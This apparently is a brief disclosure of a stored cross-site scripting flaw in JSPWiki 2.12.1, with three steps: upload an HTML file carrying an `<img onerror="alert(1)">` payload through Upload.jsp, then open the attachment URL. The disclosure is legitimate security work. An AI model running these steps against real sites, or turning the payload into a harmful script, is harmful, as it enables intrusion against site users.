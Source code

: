 ## A Cross Site Scripting vulnerability exists in JSPWiki 2.12.1

### Step to exploit:

1. Navigate to `http://{domain}/Upload.jsp`.

<img src="xss1.PNG">

2. Upload html file with content: `<img src=1 onerror="alert(1)"/>` and click on Upload button.

<img src="xss2.PNG">

3. Go to file path: `http://{domain}/attach/Main/{filename}`

<img src="xss3.PNG">
